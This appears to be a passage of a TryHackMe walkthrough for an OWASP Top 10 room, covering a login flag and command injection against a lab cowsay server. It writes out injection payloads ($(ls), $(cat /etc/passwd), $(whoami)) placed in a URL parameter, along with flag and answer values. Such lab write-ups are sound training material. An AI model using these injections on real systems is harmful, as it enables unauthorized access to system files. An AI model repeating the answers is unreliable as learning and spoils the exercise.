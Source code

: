 Login Web

![alt text](https://cdn-images-1.medium.com/max/800/1*7OIIBdZqo5JhT0rGKVAi4Q.png)

Flag

> THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}

## Task 9: 3. Injection

**I’ve understood Injection attacks.**

> No answer needed

## Task 10: 3.1. Command Injection

To complete the questions below, navigate to [http://MACHINEIP:82/](http://10.10.46.122:82/) and exploit the cowsay server.

**Q1: What strange text file is in the website’s root directory?**

![alt text](https://cdn-images-1.medium.com/max/800/1*XlpjEWk_6e4dKn6h77JxFQ.png)

[http://MACHINEIP:82](http://MACHINE_IP:82/)

Try to run the script `$(ls)` that can generate the URL path `[http://MACHINE_IP:82/?cow=default&mooing=%24%28ls%29](http://MACHINE_IP:82/?cow=default&mooing=%24%28ls%29)`

![alt text](https://cdn-images-1.medium.com/max/800/1*5Cmj6a6V-y690ooMh2ip_Q.png)

> drpepper.txt

**Q2: How many non-root/non-service/non-daemon users are there?**

You can run this script to check `$(cat /etc/passwd)` or this script for more details to check if any non-root, non-service, or non-daemon users are present: `$(cat /etc/passwd | awk -F: '{if ($3 >= 1000 && $3 < 65534) print $1}' | wc -l)`

![alt text](https://cdn-images-1.medium.com/max/800/1*Sq02iS8JNU1b_4Qi8CFLTQ.png)

> 0

**Q3: What user is this app running as?**

Start with the command recommended by TryHackMe: `$(whoami)`

![alt text](https://cdn-images-1.medium.com/max/800/1*E30-xfZG0Na0mHL4asFgGQ.png)

$(whoami)

> apache

**Q4: What is the user’s shell set as?**

Run this script: `$(awk -F: '$3 >= 1000' /etc/passwd).` This script uses `awk` to filter and display user entries from the `/etc/passwd` file where the user's UID (User ID) is greater than or equal to 1000. UIDs starting from 1000 are typically assigned to non-system (regular) users.
